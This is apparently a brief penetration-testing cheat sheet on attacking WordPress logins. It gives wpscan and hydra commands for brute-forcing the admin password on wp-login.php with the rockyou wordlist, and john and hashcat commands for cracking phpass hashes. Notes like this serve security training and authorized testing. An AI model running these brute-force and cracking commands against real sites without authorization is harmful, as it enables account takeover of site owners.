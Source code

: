 ```yaml
---
title: Wordpress
parent: Web
layout: default
nav_order: 2
---
```


1. `wpscan --usernames admin --passwords /usr/share/seclists/rockyou.txt --max-threads 50 --url IP/xxx `
   (admin can be wordlist as well, and xxx can be blog or something)
2. OR use Hydra: should be faster:\
   `hydra -l admin -P /usr/share/seclists/rockyou.txt IP -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`\
   (For the testcookie part, check in source code for the login page. for eg in this case <input type="hidden" name="testcookie" value="1" />)
3. If you have hash(`$P$B....`), can put in format user:hash (`\\\` is to escape a single `/`):\
   `john hash.txt --wordlist=/usr/share/seclists/rockyou.txt --format=phpass`
4. Can use hashcat also (but the hash format only can have hash, no username):\
   `hashcat -m 400 -a 0 wp.hash /usr/share/seclists/rockyou.txt`
